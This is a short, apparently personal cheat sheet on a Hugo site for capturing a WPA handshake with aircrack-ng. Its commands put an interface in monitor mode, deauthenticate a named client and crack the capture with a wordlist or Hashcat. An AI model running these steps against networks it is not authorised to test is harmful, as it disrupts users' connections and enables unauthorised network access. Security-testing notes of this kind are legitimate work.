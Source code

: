 ```yaml
---
title: "Wi-Fi"
date: 2020-07-16T13:41:37+02:00
draft: false
---
```

asdas

#### Capturing handshakes with the Aircrack suite
1. Put WLAN interface in monitoring mode 
```
airmon-ng start wlan0 
```
2. Start listening for wifi networks 
```
airodump-ng -c 6 --bssid 00:1D:7E:64:9A:7C -w file.cap wlan0mon  
```
3. Deauth clients  
```
aireplay-ng -0 5 -a 00:1D:7E:64:9A:7C -c 00:25:D3:0B:71:15 wlan0mon
```
4. Crack WPA handshake in captured output 
```
aircrack-ng capture-02.cap -w wordlist.txt 
```
5. OR: Filter only the WPA handshake from the capture 
```
Wpaclean <outfile> <infile> 
```
6. Convert .cap to .hccap to crack with hashcat (aircrack is CPU, hashcan can do GPU) 
```
aircrack-ng input.cap -J output  
```

The hashes in the .hccap format can now be cracked using Hashcat.
